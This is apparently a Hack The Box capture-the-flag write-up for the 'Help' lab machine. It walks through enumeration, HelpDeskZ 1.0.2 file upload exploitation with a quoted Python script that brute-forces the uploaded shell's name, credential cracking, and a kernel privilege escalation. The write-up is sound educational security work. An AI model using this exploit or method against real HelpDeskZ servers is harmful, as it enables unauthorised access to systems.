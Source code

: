 # Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*

![Img](images/apache.png "Img")

Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*

![Img](images/hd1.png "Img")

We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*

![Img](images/hd2.png "Img")

And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*

![Img](images/hd3.png "Img")

### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*

![Img](images/file_blocked.png "Img")

So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*

![Img](images/github1.png "Img")

![Img](images/github2.png "Img")

Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*

![Img](images/image_upload.png "Img")

Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*

![Img](images/shell.png "Img")

### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

```mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*

![Img](images/searchsploit.png "Img")

I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*

![Img](images/root.png "Img")

Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
